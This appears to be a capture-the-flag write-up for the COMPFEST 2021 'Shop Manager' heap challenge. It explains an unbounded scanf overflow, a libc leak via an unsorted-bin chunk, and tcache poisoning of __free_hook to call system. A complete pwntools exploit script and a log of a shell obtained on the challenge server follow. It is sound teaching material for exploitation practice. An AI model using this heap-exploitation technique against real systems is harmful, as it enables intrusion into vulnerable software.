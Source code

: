 ## Shop Manager

> Points: 496
>
> Solves: 6

### Description:
A simple shop simulator

nc 103.152.242.242 39221

Author: prajnapras19

### Attachments:
```
shop-manager-master-public.zip
```

## Analysis:

The menu is as follows, and this binary has `Add`, `Delete`, `Edit`, `List`, `Sell` functions.

```
Menu:
1. Add item
2. Delete item
3. Edit item
4. List of added items
5. Sell item
6. Exit
```
The `Item name` input for the `Add` and `Edit` functions uses `__isoc99_scanf("%s", buf)`. Therefore, it has a heap buffer overflow vulnerability because it does not check the size of the input string.

Below is the compile result of `addItem()` by Ghidra.

```c
void addItem(void)

{
  long lVar1;
  int iVar2;
  void *pvVar3;
  
  iVar2 = idx;
  if (idx == N) {
    puts("Our shop is full.");
  }
  else {
    pvVar3 = malloc(0x10);
    *(void **)(items + (long)iVar2 * 8) = pvVar3;
    lVar1 = *(long *)(items + (long)idx * 8);
    pvVar3 = malloc(0x20);
    *(void **)(lVar1 + 8) = pvVar3;
    printf("Item name: ");
    __isoc99_scanf("%s",*(undefined8 *)(*(long *)(items + (long)idx * 8) + 8));
    printf("Item price: ");
    __isoc99_scanf("%ld",*(undefined8 *)(items + (long)idx * 8));
    idx = idx + 1;
    puts("Item added successfully.");
  }
  return;
}
```

## Solution:

First I considered how to leak the libc address.
I added 16 Items to make a big chunk.
Then change the name of the 0th Item using a heap buffer overflow as follows: Resize the 1st chunk from 0x21 to 0x431.

```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431   Change to 0x21 => 0x431
0x6042c0:	0x0000000000000000	0x00000000006042e0
0x6042d0:	0x0000000000000000	0x0000000000000031
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```

I can create a 0x430 size unsorted bin chunk by deleting the 1st Item.
```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431
0x6042c0:	0x00007ffff7dcdca0	0x00007ffff7dcdca0  The 1st chunk goes into an unsorted bin
0x6042d0:	0x0000000000000000	0x0000000000000000
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```

Furthermore, if I execute the `Add` function, I can put the address of the unsorted bin chunk in the 2nd chunk, so you can leak the libc address with the` List` function.
```
    'Name: `G`\n'
    'Price: 140737351834784\n'      =>  0x00007ffff7dcdca0
```

Now that you have chunk overhauled, you can put `__free_hook` into tcache using the `Add`, `Delete` and `Edit` features shown below.
```
# tcache poisoning
Add("c", 3)
Delete(5)
Delete(1)
Edit(14, "d", free_hook)
```

The following is the state of tcache after executing the above function.
```
pwndbg> bins
tcachebins
0x20 [100]: 0x604310 —▸ 0x7ffff7dcf8e8 (__free_hook) ◂— 0x0
```

Finally, I write `/bin/sh` to Price of the 14th chunk, I write the address of the `system` function to `__free_hook`, and delete the 14th chunk to start the shell.

```
# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr)

# Start shell
Delete(14)
```

I didn't use the `Sell` function.


## Exploit code:
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './chall'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 39221
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.27.so")
else:
  s = process(BINARY)
  libc = elf.libc

def Add(data, price):
  s.sendlineafter("> ", "1")
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def Delete(idx):
  s.sendlineafter("> ", "2")
  s.sendlineafter("): ", str(idx))

def Edit(idx, data, price):
  s.sendlineafter("> ", "3")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def List():
  s.sendlineafter("> ", "4")

def Sell(idx, item):
  s.sendlineafter("> ", "5")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("item?\n", item)

def Exit():
  s.sendlineafter("> ", "6")

for i in range(16):
  Add(chr(0x41+i)*8, 1)

# libc leak
Edit(0, "a"*0x28+p64(0x431), 1)
Delete(1)
Add("b", 2)
List()
for i in range(2):
  s.recvuntil("Price: ")
libc_leak = int(s.recvuntil("\n"))
libc_base = libc_leak - libc.sym.__malloc_hook - 0x70
free_hook = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print "libc_leak =", hex(libc_leak)
print "libc_base =", hex(libc_base)

# tcache poisoning
Add("c", 3)
Delete(5)
Delete(1)
Edit(14, "d", free_hook)

# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr)

# Start shell
Delete(14)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public$ python solve.py r
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 103.152.242.242 on port 39221: Done
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7ff49f953ca0
libc_base = 0x7ff49f568000
[*] Switching to interactive mode
$ id
/bin/sh: 1: id: not found
$ ls -l
total 2208
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 bin
-r-xr-xr-x  1 0 0   17264 Sep 12 04:33 chall
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 dev
-r--r--r--  1 0 0      56 Sep 12 04:33 flag.txt
-rwxr-xr-x  1 0 0  179152 Sep 12 04:33 ld-2.27.so
drwxr-xr-x 21 0 0    4096 Sep 12 04:33 lib
drwxr-xr-x  3 0 0    4096 Sep 12 04:33 lib32
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 lib64
-rwxr-xr-x  1 0 0 2030928 Sep 12 04:33 libc-2.27.so
-rwxr-xr-x  1 0 0     339 Sep 12 04:33 run.sh
$ cat flag.txt
COMPFEST13{I_us3_st4Ck_p1v0T1ng_How_bouT_Y0u_dd4dfcc265}
```
